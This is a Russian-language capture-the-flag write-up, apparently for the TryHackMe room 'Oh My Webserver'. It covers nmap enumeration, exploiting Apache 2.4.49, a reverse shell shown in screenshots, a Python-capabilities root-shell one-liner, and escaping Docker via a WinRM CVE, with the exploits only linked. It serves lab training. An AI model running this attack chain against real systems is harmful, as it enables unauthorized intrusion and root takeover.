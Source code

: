 # Road

:white_check_mark:  [**Apache**](#apache)

:white_check_mark: [**Capabilities(python)**](#capabilities)

:white_check_mark: [**WinRM**](#win_rm)

:white_check_mark: [**Docker**](#docker)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV server.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/1.png)

## Getting shell

<a name="apache"></a>

Сервер поднят на Apache 2.4.49. Найдем [уязвимость](https://www.exploit-db.com/exploits/50383) для него на exploit-db.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/3.png)

Клонируем эксплоит и используем.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/4.png)

Видим, что можем использовать команды. Прокинем обратную оболочку

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/6.png)

## Privilege escalation

Используем **linpeas**, чтобы найти что-нибудь интересное.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/7.png)

<a name="capabilities"></a>

Видим, что можем проэсплуатировать **capabilities** питона. Используем для этого [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).
```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<a name="docker"></a>

## Docker escape

Получаем рут. Мы находимся в докере. Ищем способ выйти из него. Снова посмотрим на результат работы **linpeas**. Ничего, кроме внутреннего ip-адресса не найдена. Попробуем установить nmap и просканировать порты.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/8.png)

```
nmap -p- 172.17.0.1
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:99:85:EF:78 (Unknown)
```

<a name="win_rm"></a>

Порты 5985, 5986 относятся к WinRM. Проэксплуатируем [уязвимость](https://github.com/AlteredSecurity/CVE-2021-38647).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/9.png)

Мы вышли из докера.